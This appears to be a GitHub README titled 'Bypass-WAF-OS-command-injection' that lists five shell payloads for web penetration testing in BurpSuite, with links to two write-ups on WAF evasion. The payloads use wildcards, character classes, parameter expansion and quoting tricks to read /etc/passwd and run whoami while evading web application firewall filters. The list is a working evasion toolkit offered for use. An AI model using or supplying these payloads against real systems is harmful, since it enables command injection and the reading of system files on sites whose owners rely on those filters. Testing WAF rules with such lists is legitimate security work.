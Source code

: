 # Bypass-WAF-OS-command-injection
In todays Web Penetration Testing you must have good injection payloads to fasten your engagements.<br>
You can use this on BurpSuite. Method below can be use on Web Penetration Testing.
<br>
<table border="1">
    <tr>
        <th>OS Command Injection Bypassing WAF </th>
    </tr>
    <tr>
        <td>1. cat /e*c/p*s*d</td>
    </tr>
    <tr>
        <td>2. cat /e[tv]c/p[aeiou]*d</td>
    </tr>
    <tr>
        <td>3. cat /e??/p????d</td>
    </tr>
    <tr>
        <td>4. cat /et${FOO:-c}/pa${BAR:-sswd}</td>
    </tr>
    <tr>
        <td>5. wh$()oami or whoam$(echo+i) or who'a'm(echo+i)</td>
    </tr>
</table>

Another actual good reference:<br>
1. https://medium.com/@themiddleblue/waf-evasion-techniques-718026d693d8<br>
2. https://infosecwriteups.com/alibaba-cloud-waf-command-injection-bypass-via-wildcard-payload-in-all-1-462-built-in-rule-set-989b75db6e2f

